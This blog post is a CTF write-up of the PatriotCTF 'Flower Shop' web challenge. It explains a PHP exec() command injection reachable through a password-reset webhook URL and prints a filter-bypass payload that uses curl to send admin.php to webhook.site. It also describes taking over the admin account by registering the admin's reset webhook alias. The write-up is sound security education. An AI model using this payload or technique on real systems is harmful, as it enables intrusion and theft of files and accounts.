 ```yaml
---
layout: post
current: post
cover:  assets/patriot/flowershop/cover.webp
navigation: True
title: "Flower Shop"
date: 2023-09-10 22:00:00
tags: [PatriotCTF, web]
class: post-template
subclass: 'post'
author: nisala
---
```


Bad news: pay-to-win made it to CTFs. Good news: we paid first.

In this challenge, we're presented with a basic user management system:

![Sign up, login, and password reset screen](assets/patriot/flowershop/image1.webp)

Alright, login, signup, and password reset. Pretty standard stuff. The one difference is in the password reset system. Instead of providing an email, you have to provide a webhook URL.

## The Intended Solution

One look at the password reset system and it's immediately obvious what the vulnerability is.

```php
public function resetPassword() {
    $this->wh = $this->checkUser($this->uid);
    if (!$this->wh) {
        header("location: ../login.php?error=InvalidUser");
        exit();
    }

    $this->tmpPass = $this->tmpPwd($this->uid);

    exec("php ../scripts/send_pass.php " . $this->tmpPass . " " . $this->wh . " > /dev/null 2>&1 &");

    return $this->tmpPass;
}
```

A call to `exec`? It's practically asking to be exploited -- and you very easily can. The webhook is validated, but the valdation is done very insecurely, using PHP filters:

```php
$this->wh = filter_var($wh, FILTER_SANITIZE_URL);
...
if (!filter_var($this->wh, FILTER_VALIDATE_URL)) {
    header("location: ../login.php?error=NotValidWebhook");
    exit();
}
```

`FILTER_SANITIZE_URL` is the easiest check to get around -- it just removes some illegal characters. `FILTER_VALIDATE_URL` hypothetically validates the URL against RFC2396, but there are lots of payloads that get around it. The flag is stored in `../admin.php`, so this is about how far we got on the payload before finding our unintentional solution:

```
0://google.com;curl${IFS}-d${IFS}@../../admin.php${IFS}https://webhook.site/nisala;
```

This bypasses the URL filter, and allows us to run a command with the insecure use of `exec`. We were still ironing out exactly how to use `${IFS}` to get spaces when we found an unintentional solution.

## The Unintentional Solution

So the flag is stored at `admin.php`, right? What's stopping us from just going there?

```php
if ($_SESSION['username'] !== "admin" ) {
    header("Location: login.php?error=notadmin");
    exit();
}
```

Our username needs to be `admin`, huh? Well, we can't register as `admin`, so it's clearly getting pre-created. Is that in the code?

```php
private function initDB() {
    $stmt = $this->connect()->prepare('INSERT INTO users (username, password, webhook)
    VALUES ("admin", :password, :webhook)');
    $stmt->bindValue(':password', $hashedPwd);
    $stmt->bindValue(':webhook', "https://webhook.site/fake");
    $stmt->execute();
}
```

So it seems that `admin`'s password resets are being sent to `webhook.site/fake`. If we can see those, we can just log in as admin and get the flag. Now, this may seem far-fetched, but... can we control that URL?

![webhook.site page that shows premium tier has custom aliases](assets/patriot/flowershop/image2.webp)

Oh my god. So, does that mean...

![webhook.site page showing control of webhook.site/fake](assets/patriot/flowershop/image3.webp)

Yes. Yes it does. Let's send in a password reset for admin.

![webhook.site/fake showing the password](assets/patriot/flowershop/image4.webp)

And now we just sign in and claim our prize.

![flag, logged in as admin on the flower shop website](assets/patriot/flowershop/image5.webp)